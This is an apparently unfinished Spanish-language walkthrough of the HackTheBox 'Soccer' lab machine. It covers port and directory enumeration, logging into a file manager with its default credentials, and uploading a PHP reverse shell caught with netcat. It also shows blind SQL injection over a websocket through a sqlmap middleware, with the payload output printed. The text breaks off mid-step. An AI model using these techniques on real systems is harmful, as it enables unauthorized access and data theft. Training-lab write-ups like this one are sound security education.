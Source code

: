 ```yaml
---
title: Soccer HTB
date: 2023-02-20
---
```

#linux #nginx 

SIN TERMINAR

## Reconocimiento

Comenzaremos comprobando que la máquina se encuentra activa con `ping`, y en base al ttl, podemos sospechar que se trata de una máquina **linux**. A continuación lanzamos [[nmap]] en busca de puertos abiertos:

```bash
sudo nmap -sS -p- --open --min-rate 5000 -n -Pn <ip>
```
```bash
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9091/tcp open  xmltec-xmlmail
```

Vemos que tenemos un *ssh*, una página *http* y otro servicio llamado *xmltec-xmlmail*.

Volvemos a lanzar nmap en busca de más información y las versiones de cada servicio:

```bash
sudo nmap -sCV -p 22,80,9091 -n -Pn <ip>
```
```bash
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
9091/tcp open  xmltec-xmlmail?
```

Vemos que se trata de una máquina Ubuntu, sin embargo nmap no consigue sacar información sobre el servicio del puerto 9091.

Tratamos ahora de acceder a la página, después de añadir el dominio al `/etc/hosts`. Pero vemos que se trata de un simple blog. Así que podríamos pasar a buscar posibles archivos y directorios con [[gobuster]] ([[Directories and files enumeration]]):

```bash
gobuster dir -u http://soccer.htb/ -w /usr/share/wordlists/dirb/common.txt
```
```bash
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/02/20 10:40:23 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 162]
/.htpasswd            (Status: 403) [Size: 162]
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
Progress: 20469 / 20470 (100.00%)
===============================================================
2023/02/20 10:49:29 Finished
===============================================================
```

Vemos que tiene un directorio `/tiny/`, así que tratamos de acceder. Una vez dentro vemos una pestaña de login. Con una búsqueda rápida en internet encontramos que las credenciales por defecto para el servicio son `admin:admin@123`, y resultan ser válidas, dándonos acceso a un panel de administración.


## Explotación

En este punto, podríamos tratar de subir una reverse shell al servidor para tratar de conectarnos. Con [[wappalizer]] vemos que la página utiliza php como lenguaje. Así que subiremos una reverse shell en ***php*** ([[Reverse shell]]), en concreto esta de [aquí](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Y cambiamos la ip y el puerto, en mi caso usaré el 443:

```php
$ip = '127.0.0.1';  // CHANGE THIS
$port = 443;       // CHANGE THIS
```

Nos ponemos en escucha con [[netcat]]:

```bash
nc -lvnp 443
```

Y la subimos y accedemos a la ruta `http://soccer.htb/tiny/uploads/reverse_shell.php`.

```bash
listening on [any] 443 ...
connect to [10.10.16.46] from (UNKNOWN) [10.10.11.194] 44028
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 22:37:49 up  3:01,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```


## Escalada de privilegios

Si comprobamos que usuario somos con `whoami` vemos que somos `www-data`, y con `groups` vemos que únicamente pertenecemos al grupo `www-data`.

Antes de comenzar a elevar privilegios aplicaremos un [[Tratamiento de la tty]].

Una vez con una shell completamente interactiva podemos echar un vistazo al `/etc/passwd` para tratar de encontrar usuarios potenciales. Para nuestra suerte tenemos privilegios para listarlo:

```bash
bash-5.0$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
player:x:1001:1001::/home/player:/bin/bash
```

Con `grep bash` podemos buscar los usuarios potenciales, entre los que vemos a `root` y a `player`.

Como recordamos que el servidor se trataba de un [[nginx]], cpodemos tratar de listar el `/etc/nginx/sites-enabled` en busca de posibles subdominios:

```bash
bash-5.0$ cd /etc/nginx/sites-enabled
bash-5.0$ ls
default  soc-player.htb
```

Tratamos ahora de acceder al subdominio, añadiéndolo en el `/etc/hosts` (`sudo echo '<ip> soc-player.soccer.htb' >> /etc/hosts`) y accediendo por el navegador. La página parece igual que la que ya habíamos visto, pero ahora hay una pestaña de registro y de login.

Intentemos registrarnos y loguearnos.

En el código fuente de la página que nos sale una vez dentro (*CTL+U*), podemos ver:

```js
<script>
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
        
        [...]
	    function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
        }
	    [...]
```

Además tenemos asignado un *número de ticket* y hay un buscador que aparentemente sólo dice si el ticket existe. En este punto podríamos buscar una posible vuln de [[Sql injection]]. Si probamos con nuestro número nos dice que *Ticket Exists*, en cambio con cualquier otro nos dice que *Ticket Doesn't Exist*. Pero si probamos con `<numero que no exista> OR 1`, entonces si existe, por tanto de ducimos que **existe una vulnarebilidad de sql injection**.

Como no podemos lanzar [[sqlmap]] directamente ya que la petición va a través de sockets, hacemos una búsqueda por internet sobre cómo realizar un SQLi a través de websockets. Lo que nos lleva al siguiente [artículo](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) con un script muy interesante en *python3*. 

El script hará las veces de transcriptor, poniéndose entre el servidor y sqlmap. Primero debemos cambiar `ws_server` y `data`:

```python
ws_server = "ws://soc-player.soccer.htb:9091"
```
```python
data = '{"id":"%s"}' % message
```

Y arrancamos el script:

```bash
sudo python3 script.py
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
```

Después lanzamos sqlmap:

```bash
sudo sqlmap -u 'http://localhost:8081/?id=1' -p 'id'
```

Podemos ver que lanzamos sqlmap para que acceda mediante el script.

Obtenemos:

```bash
[01:14:17] [INFO] resuming back-end DBMS 'mysql' 
[01:14:17] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 1046 FROM (SELECT(SLEEP(5)))maQi)
---
[01:14:48] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[01:14:48] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/localhost'
```

Así que volvemos a lanzar sqlmap:

```bash
sudo sqlmap -u 'http://localhost:8081/?id=' --current-db
```
```bash

```